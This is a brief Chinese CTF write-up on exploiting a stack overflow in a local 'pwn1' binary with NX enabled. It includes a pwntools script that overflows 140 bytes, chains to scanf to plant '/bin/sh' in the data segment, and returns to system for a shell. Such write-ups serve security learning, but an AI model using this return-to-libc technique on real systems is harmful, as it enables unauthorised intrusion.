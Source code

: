 这题溢出点应该是在ShowInfo里面。。  
开了NX选项，栈上啥也执行不了。。需要去找system

刚开始有点迷惘，system参数是指向字符串的地址，而非字符串本身
栈上数据可写，但栈上的地址根本不固定，咋办咯？
曾宇圣说这不有个scanf吗。。然后就懂了

要先跳到scanf去把/bin/sh放到地址固定的任意地方，比如数据段
再跳到system，而scanf多少字节才溢出呢？
pattern.py测试出来是140

进scanf之后可以用finish来迅速地跳到return（这是一个可以快速结束函数的好办法~~~

```python
from pwn import *  
p=process('./pwn1')  
r=raw_input()  
scanf_addr=p32(0x80484f0)  
sys_addr=p32(0x80484b0)  
format_addr=p32(0x804888f)  
data_addr=p32(0x804a034)  
p.recvuntil('e:')  
p.sendline('a'*140+scanf_addr+sys_addr+format_addr+data_addr)  
p.recvuntil(':')  
p.sendline('1')  
p.sendline('/bin/sh\x00')  
p.interactive()  
```
刚开始写的是p.sendline('a'*140+scanf_addr+ '1'*4 +format_addr+data_addr)  
以为中间那个地址无所谓，先这样再去溢出scanf跳system即可  
然而这样子就会报0x31313131无法访问的错，因为jmp到scanf之后，栈顶这个东西就直接被当成scanf的eip去返回了  
改了之后，意外发现可以直接跳system没有问题（不然似乎需要跳add esp去抬栈的）。。这个似乎跟参数个数有关~  
莫名的就getshell了~开心  
